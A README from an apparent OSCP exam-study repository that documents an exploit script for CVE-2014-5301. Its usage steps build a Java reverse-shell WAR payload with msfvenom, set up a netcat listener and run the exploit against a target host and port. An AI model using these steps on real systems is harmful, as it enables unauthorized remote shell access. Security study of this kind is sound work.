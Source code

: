 # OSCP
This is a repository which contains custom/ported POC exploits. They have been made for study and learning purposes.

## 35845.py

CVE: 2014-5301

OSVDB: 116733

URL: [http://seclists.org/fulldisclosure/2015/Jan/5](http://seclists.org/fulldisclosure/2015/Jan/5)

Original metasploit module: url

### Usage
```
35845.py file.war host port
```

1. First create reverse shell payload
```
msfvenom -p java/shell_reverse_tcp LHOST=<ip address> LPORT=4444 -f war > shell.war
```
2. Start netcat listener 
3.run the script
```
35845.py shell.war 192.168.1.1 8080
```
**Note:** The exploit may require multiple run to get it working. Don't give up!
